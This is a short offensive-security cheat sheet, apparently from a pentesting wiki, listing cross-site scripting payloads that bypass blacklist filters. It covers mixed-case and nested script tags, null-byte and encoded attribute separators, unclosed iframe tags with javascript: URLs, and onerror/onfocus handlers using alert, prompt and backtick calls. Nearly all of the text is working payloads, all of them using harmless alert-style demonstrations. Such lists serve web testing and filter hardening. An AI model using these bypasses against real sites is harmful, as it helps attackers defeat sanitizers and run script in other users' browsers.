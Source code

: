 ### Blacklist Bypasses

If some kind of blacklist is being used you could try to bypass it with some silly tricks:

```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```
